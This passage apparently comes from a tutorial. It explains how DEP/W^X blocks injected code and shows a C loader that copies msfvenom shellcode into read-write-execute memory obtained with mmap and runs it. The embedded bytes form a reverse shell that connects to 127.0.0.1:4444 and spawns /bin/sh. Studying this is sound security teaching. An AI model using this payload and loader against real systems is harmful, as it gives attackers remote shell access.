 When we try to compile this on Modern system it will likely to be failed.

By default, modern systems have security protections that would prevent our shellcode from running. Modern systems use **Data Execution Prevention (DEP)** or **W^X (Write XOR Execute)** policy:

- Memory pages can be either **writable** OR **executable**, but **not both**
- This prevents attackers from injecting and executing code

We need to use `mmap`. You can learn more about `mmap` in my **System Programming Series**

```c
void *exec_mem = mmap(NULL, sizeof(code), 
                     PROT_READ | PROT_WRITE | PROT_EXEC,  // ← Explicitly requesting EXECUTE permission
                     MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
```

Using `mmap` we will allocate new memory region and set its permission explicitly to `RWX`. The shellcode will be copied to this memory region and then the CPU can execute instructions from this region. 

Let's try to implement this behaviour.

```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

// Our msfvenom-generated shellcode
unsigned char code[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05"; // Stored in data section (RW-)


int main() {
    printf("Shellcode Length: %zu bytes\n", strlen(code));
    
    // Allocate executable memory
    void *exec_mem = mmap(NULL, sizeof(code), 
                         PROT_READ | PROT_WRITE | PROT_EXEC,
                         MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    
    if (exec_mem == MAP_FAILED) {
        perror("mmap failed");
        return 1;
    }
    
    printf("Allocated executable memory at: %p\n", exec_mem);
    
    // Copy shellcode to executable memory
    memcpy(exec_mem, code, sizeof(code));
    
    printf("Executing shellcode...\n");
    
    /* PROBLEM */
	// int (*ret)() = (int(*)())code;  // Trying to execute data section
	// ret();
      
    // Cast to function pointer and execute
    int (*func)() = (int(*)())exec_mem;
    func();
    
```